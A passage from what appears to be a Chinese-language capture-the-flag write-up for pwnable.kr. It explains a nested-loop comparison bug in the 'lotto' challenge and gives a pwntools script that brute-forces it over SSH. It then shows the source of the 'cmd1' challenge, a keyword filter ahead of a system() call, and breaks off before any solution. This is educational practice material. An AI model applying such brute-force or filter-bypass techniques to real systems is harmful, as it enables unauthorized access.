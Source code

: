   

程序从`/dev/urandom`中读取6个字节随机数，与用户输入的数据进行对比，而问题就出在对比的地方

  

	for(i=0; i<6; i++){
		for(j=0; j<6; j++){
			if(lotto[i] == submit[j]){
				match++;
			}
		}
	}

  

程序写成了嵌套循环，结果导致只要有一次lotto[i]==submit[j]，match++就可以加到6，最后得到flag。那么就随便挑个字符，然后爆破就行了。

  

from pwn import *

s=ssh("lotto","pwnable.kr",2222,"guest")
p=s.process("/home/lotto/lotto")
p.recv()
while True:
    p.sendline("1")
    p.recv()
    payload="------"
    p.sendline(payload)
    recv_str=p.recv()
    if "bad luck...\n" not in recv_str:
        print recv_str
        break

  

## cmd1

  

### 题目描述

  

#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
